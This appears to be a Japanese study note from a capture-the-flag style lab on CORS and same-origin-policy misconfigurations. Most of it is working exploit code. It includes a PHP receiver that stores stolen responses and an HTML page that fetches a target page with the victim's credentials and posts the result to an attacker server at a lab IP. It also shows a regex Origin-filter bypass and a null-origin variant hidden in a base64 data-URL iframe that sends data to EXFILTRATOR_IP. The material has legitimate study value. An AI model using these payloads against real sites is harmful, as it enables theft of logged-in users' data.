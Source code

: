 # CORS と SOP

Cross Origin Resource Sharing クロスオリジンリソース共有

Same Origin Policy 同一生成元ポリシー

## 基本

Access-Control-Allow-Origin:  
ヘッダーが適切に扱われていない Web サイトが攻撃対象になる。

- 攻撃者は、攻撃者のホストに HTML を配置する。
- その HTML は、他サイトへのリクエスト１後、スパイホストへのリクエスト２を実行する。
- リクエスト２は POST で、リクエスト１の応答が丸ごと含まれる。
- なんとかして被害者に HTML を開かせると、通信内容を盗める仕組み。

スパイサイトに置く PHP。リクエストデータを丸ごと data.txt に保存する。

```php
<?php
header("Access-Control-Allow-Origin: {$_SERVER['HTTP_ORIGIN']}");
header('Access-Control-Allow-Credentials: true');

$postdata = file_get_contents("php://input");
file_put_contents('data.txt', $postdata);
?>
```

攻撃者のホストに配置する HTML の例

```html
<html>
  <head>
  <title>Data Exfiltrator Exploit</title>
  <script>
    //Function which will make CORS request to target application web page to grab the HTTP response
    function exploit() {
    var xhttp = new XMLHttpRequest();
    xhttp.onreadystatechange = function() {
      if (this.readyState == 4 && this.status == 200) {
        var all = this.responseText;
        exfiltrate(all);
     }
    };
    xhttp.open("GET", "http://corssop.thm/badregex.php", true);
    xhttp.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,\/;q=0.8");
    xhttp.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
    xhttp.withCredentials = true;
    xhttp.send();
    }

    function exfiltrate(data_all) {
          var xhr = new XMLHttpRequest();
          xhr.open("POST", "http://10.10.86.76:81/receiver.php", true); //Replace the URL with attacker controlled Server

          xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
          xhr.withCredentials = true;
          var body = data_all;
          var aBody = new Uint8Array(body.length);
          for (var i = 0; i < aBody.length; i++)
            aBody[i] = body.charCodeAt(i);
          xhr.send(new Blob([aBody]));
    }
    </script>
</head>
<body onload="exploit()">
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
<textarea id="load" style="width: 1183px; height: 305px;">
```

## 不正な正規表現

サーバーが次の正規表現で Origin をフィルターしているとする（#は正規表現のデリミタ）  
この場合、http://corssop.thm.attacker.com を攻撃ホストとすることでバイパスされてしまう。

```php
if (isset($_SERVER['HTTP_ORIGIN']) && preg_match('#corssop.thm#', $_SERVER['HTTP_ORIGIN'])) {
    header("Access-Control-Allow-Origin: ".$_SERVER['HTTP_ORIGIN']."");
    header('Access-Control-Allow-Credentials: true');
}
```

## null Origin

file: によるリクエストや、iframe 内からのリクエストの場合、Origin: null となる。  
Access-Control-Allow-Origin: null が許可されている場合、狙われる可能性がある。

```html
<div style="margin: 10px 20px 20px; word-wrap: break-word; text-align: center;">
  <iframe id="exploitFrame" style="display:none;"></iframe>
  <textarea id="load" style="width: 1183px; height: 305px;"></textarea>
</div>

<script>
  // JavaScript code for the exploit, adapted for inclusion in a data URL
  var exploitCode = `
      <script>
        function exploit() {
          var xhttp = new XMLHttpRequest();
          xhttp.open("GET", "http://corssop.thm/null.php", true);
          xhttp.withCredentials = true;
          xhttp.onreadystatechange = function() {
            if (this.readyState == 4 && this.status == 200) {
              // Assuming you want to exfiltrate data to a controlled server
              var exfiltrate = function(data) {
                var xhr = new XMLHttpRequest();
                xhr.open("POST", "http://EXFILTRATOR_IP/receiver.php", true);
                xhr.withCredentials = true;
                var body = data;
                var aBody = new Uint8Array(body.length);
                for (var i = 0; i < aBody.length; i++)
                  aBody[i] = body.charCodeAt(i);
                xhr.send(new Blob([aBody]));
              };
              exfiltrate(this.responseText);
            }
          };
          xhttp.send();
        }
        exploit();
      <\/script>
    `;

  // Encode the exploit code for use in a data URL
  var encodedExploit = btoa(exploitCode);

  // Set the iframe's src to the data URL containing the exploit
  document.getElementById("exploitFrame").src =
    "data:text/html;base64," + encodedExploit;
</script>
```
